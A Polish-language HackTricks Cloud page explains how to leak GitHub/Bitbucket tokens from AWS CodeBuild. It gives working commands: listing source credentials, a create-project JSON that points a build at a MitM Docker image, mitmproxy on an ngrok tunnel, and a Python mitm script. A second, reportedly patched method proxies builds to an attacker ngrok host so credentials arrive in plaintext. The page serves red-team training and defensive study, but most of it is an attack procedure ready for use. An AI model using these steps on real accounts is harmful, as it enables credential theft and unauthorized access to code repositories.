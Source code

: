 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Naucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Naucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Odzyskiwanie Skonfigurowanych Tokenów Github/Bitbucket

Najpierw sprawdź, czy są skonfigurowane jakiekolwiek poświadczenia źródłowe, które możesz wyciec:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Jeśli okaże się, że uwierzytelnianie do na przykład Github jest ustawione na koncie, możesz **wyeksfiltrować** ten **dostęp** (**GH token lub OAuth token**) poprzez zmuszenie Codebuild do **użycia konkretnego obrazu docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Docker**.

Obraz Docker, którego możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Jest to bardzo podstawowy obraz Docker, który ustawi **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. Pozwoli to na przechwycenie większości ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufanie certyfikatowi SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i prześlij własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić adres IP proxy i ustawić certyfikat SSL oraz **zbudować obraz docker**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444`, aby ustawić proxy na swoim hoście.
* Gdy obraz Docker zostanie zbudowany, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...)
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt na użycie **wcześniej wygenerowanego obrazu Docker**

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM na swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
**Użyta wersja mitmproxy to 9.0.1**, zgłoszono, że z wersją 10 to może nie działać.
{% endhint %}

4. **Uruchom build i przechwyć poświadczenia**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

To można również zrobić z aws cli za pomocą czegoś takiego

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Ta luka została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (myślę, że w piątek). Więc atakujący nie może już jej nadużywać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild może wyciec token Github/Bitbucket** skonfigurowany lub, jeśli uprawnienia zostały skonfigurowane przez OAuth, **tymczasowy token OAuth używany do dostępu do kodu**.

* Atakujący mógłby dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazując na swoją maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie, zmień URL repozytorium github na używające HTTP zamiast HTTPS, na przykład: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Następnie, uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij **Build the project**, **credentials** zostaną **wysłane w jawnym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojej maszyny, wylistować wszystkie jego uprawnienia i (nadużywać) łatwiej niż bezpośrednio korzystając z usługi CodeBuild.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Ucz się i ćwicz GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wspieraj HackTricks</summary>

* Sprawdź [**plany subskrypcji**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
